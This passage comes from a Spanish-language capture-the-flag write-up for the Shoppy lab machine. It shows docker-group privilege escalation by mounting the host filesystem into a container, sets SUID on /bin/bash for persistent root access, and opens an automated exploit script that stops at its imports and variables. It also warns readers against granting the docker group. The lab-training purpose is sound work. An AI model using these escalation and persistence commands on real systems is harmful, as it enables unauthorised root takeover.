 Entonces lo que podemos hacer es crear un contenedor con la imagen que tenemos, montar todo el sistema de archivos de la **máquina host (10.10.11.180)** a nuestro **contenedor (172.17.0.2)** y ya que somos `root` podremos usar todos esos archivos y binarios como si estuvieramos en la misma máquina host:

```console
deploy@shoppy:~$ docker run -it -v /:/tmp --rm alpine chroot /tmp bash
root@15d0b34856d2:/# whoami
root
root@15d0b34856d2:/# ls -a
.   .cache  boot  etc   initrd.img      lib    lib64   lost+found  mnt  proc  run   srv  tmp  var      vmlinuz.old
..  bin     dev   home  initrd.img.old  lib32  libx32  media       opt  root  sbin  sys  usr  vmlinuz
```

Para un accesso persistente podríamos asignarle permisos **SUID** al binario `/bin/bash` para poder ejecutarlo como el propietario y conseguir la flag:

```console
deploy@shoppy:~$ docker run -it -v /:/tmp --rm alpine chroot /tmp bash
root@f5a544f92c52:/# chmod u+s /bin/bash
root@f5a544f92c52:/# exit
exit
deploy@shoppy:~$ bash -p
bash-5.1# whoami
root
bash-5.1# find / -name root.txt | xargs ls -l
-rw-r----- 1 root root 33 Oct  5 00:01 /root/root.txt
```

> Ya saben, no asignemos el grupo `docker` a cualquier usuario ya que existen varias maneras de escalar privilegios
{: .prompt-warning}

> Para un análisis mas a fondo y todo tipo de cosas que puedas hacer respecto al **UNIX socket (docker.sock)** recomiendo este articulo [https://blog.quarkslab.com/why-is-exposing-the-docker-socket-a-really-bad-idea.html](https://blog.quarkslab.com/why-is-exposing-the-docker-socket-a-really-bad-idea.html)
{: .prompt-info}

Para finalizar y como es costumbre hice un **autopwn** en `python` aplicando todos los conceptos vistos:

```python
import argparse
import hashlib
import json
import paramiko		 # pip install paramiko
import requests 	 # pip install requests
import shlex		 
import signal
import subprocess
import sys
import time

from pwn import * 	 # pip install pwntools

""" 
Autopwn Shoppy HTB Machine
--------------------------
Author: Marss
Date: Sep 30, 2022 
"""

# Variables
target_host = '10.10.11.180'
wordlist_filename = 'rockyou.txt'
```